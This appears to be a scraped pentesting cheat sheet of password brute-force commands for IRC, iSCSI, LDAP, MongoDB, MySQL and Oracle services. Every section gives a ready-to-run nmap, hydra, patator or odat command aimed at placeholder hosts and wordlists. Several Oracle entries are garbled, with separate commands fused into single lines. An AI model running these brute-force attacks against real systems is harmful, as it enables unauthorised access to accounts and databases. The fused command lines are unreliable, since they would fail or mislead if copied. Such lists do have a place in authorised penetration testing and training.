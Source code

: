 ## IRC

```
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
```

## ISCSI

```
nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>
```

## LDAP

```
nmap --script ldap-brute -p 389 <IP>
```

```
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f
```

## Mongo

```
nmap -sV --script mongodb-brute -n -p 27017 <IP>
```

## MySQL

```
hydra -L usernames.txt -P pass.txt <IP> mysql
```

## OracleSQL

```
pip3 install cx_Oracle --upgradepatator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017
```

```
./odat.py passwordguesser -s $SERVER -d $SID./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt
```

```
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

```
nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30​john hashes.txt
```
